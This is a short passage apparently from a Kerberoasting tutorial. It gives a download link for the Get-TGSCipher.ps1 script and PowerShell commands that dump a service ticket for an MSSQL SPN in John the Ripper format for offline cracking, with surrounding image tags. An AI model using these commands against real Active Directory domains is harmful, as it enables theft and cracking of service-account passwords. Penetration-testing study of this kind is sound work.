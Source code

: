 <img src="/img/kerberosting/13.png" alt="Getting-gz" width="1000" height="200"> 

## TGSCipher.ps1
Dump TGS ticket
```
download script:https://raw.githubusercontent.com/cyberark/RiskySPN/master/Get-TGSCipher.ps1
```
```
 Import-Module .\Get-TGSCipher.ps1
 Get-TGSCipher -SPN "MSSQLSvc/domainAD.karim.net:1443" -Format John
 ```
 
<img src="/img/kerberosting/14.PNG" alt="Getting-gz" width="1000" height="200"> 
